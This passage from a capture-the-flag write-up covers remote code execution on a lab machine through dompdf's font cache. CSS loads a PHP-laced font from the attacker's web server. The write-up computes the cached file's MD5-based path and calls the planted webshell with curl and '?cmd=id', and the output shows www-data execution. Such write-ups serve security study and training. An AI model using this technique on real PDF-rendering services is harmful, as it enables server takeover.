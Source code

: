 This stylesheet will load `exploit_font.php` as a font. That is a binary file, but the format includes text comments. In this case, those comments are set to contain PHP (at the bottom of the image):

![image-20230213142323793](/img/image-20230213142323793.png)

When dompdf gets an HTML page with CSS that loads a font, that font file will be cached at `/vendor/dompdf/dompdf/lib/fonts/[family]_[style]_[m5d(url)].php`. If I can access that file directly, I’ll have PHP execution.

#### Exploit

I’ll make a couple changes to get this to work. First, I’ll update `exploit.css` to reference my webserver rather than `localhost`. Next, I’ll change the PHP in `exploit_font.php` to be a simple webshell, rather than `phpinfo()`:

![image-20230213142947850](/img/image-20230213142947850.png)

I’ll start a Python webserver serving these files (I don’t want a PHP webserver, as it will run my PHP in the font). In Burp Repeater, I’ll send a request with HTML that loads `exploit.css` as a stylesheet:

![image-20230213143244084](/img/image-20230213143244084.png)

There’s a hit for the CSS file, and then the font:

```
10.10.11.200 - - [13/Feb/2023 19:36:27] "GET /exploit.css HTTP/1.0" 200 -
10.10.11.200 - - [13/Feb/2023 19:36:27] "GET /exploit_font.php HTTP/1.0" 200 -

```

To find it, I’ll need to calculate the URL of the cached font, each of which I defined in the CSS file, except the MD5 which I’ll calculate:

```

oxdf@hacky$ echo -n "http://10.10.14.6/exploit_font.php" | md5sum
fa98e7a2405d7716b5dd59ed89e2601b  -

```

So the URL becomes:

```

/vendor/dompdf/dompdf/lib/fonts/[family]_[style]_[m5d(url)].php
/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php

```

It works:

```

oxdf@hacky$ curl -s http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_fa98e7a2405d7716b5dd59ed89e2601b.php?cmd=id -o- | tail -1
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
